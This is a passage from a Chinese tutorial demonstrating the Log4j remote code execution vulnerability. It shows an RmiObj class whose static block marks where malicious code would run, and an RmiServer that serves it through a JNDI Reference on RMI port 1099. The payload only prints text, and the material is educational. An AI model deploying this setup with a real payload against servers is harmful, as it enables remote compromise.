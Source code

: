 （1）在`io.binghe.log4j.rmi`下存在这两个Java类，一个是RmiObj类，一个是RmiServer类，这两个类模拟的是在骇客本地运行的RMI服务。首先，来看下RmiObj的代码，如下所示。

```java
/**
 * @author binghe (公众号：冰河技术)
 * @version 1.0.0
 * @description 模拟log4j的漏洞
 */
public class RmiObj implements ObjectFactory {

    static {
        System.out.println("执行代码");
        //这里可以写任意代码，比如木马程序，病毒程序，死循环，后门程序等等。
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

可以看到，RmiObj类的代码比较简单，它实现了`javax.naming.spi.ObjectFactory`接口，但是并没有实现`javax.naming.spi.ObjectFactory`接口中的getObjectInstance()方法，在getObjectInstance()方法中直接返回null。

这里，重点是在RmiObj中写了一个静态代码块，如下所示。

```java
static {
    System.out.println("执行代码");
    //这里可以写任意代码，比如木马程序，病毒程序，死循环，后门程序等等。
}
```

就是这个静态代码块，让骇客利用Log4j的远程代码执行漏洞，可以在远程服务器上做任何想要做的事情。

这里，我们只是在静态代码块中简单的打印了`执行代码`四个字，如果你的项目被骇客盯上了，或许就没我这么友善了。

（2）接下来，看下`io.binghe.log4j.rmi`包下的RmiServer类，如下所示。

```java
/**
 * @author binghe (公众号：冰河技术)
 * @version 1.0.0
 * @description 模拟漏洞的RMIServer
 */
public class RmiServer {

    public static void main(String[] args){
        try{
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();

            System.out.println("RMI Listener 1099 port");
            Reference reference = new Reference("io.binghe.log4j.rmi.RmiObj", "io.binghe.log4j.rmi.RmiObj", null);

            ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
            registry.rebind("test", referenceWrapper);

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```
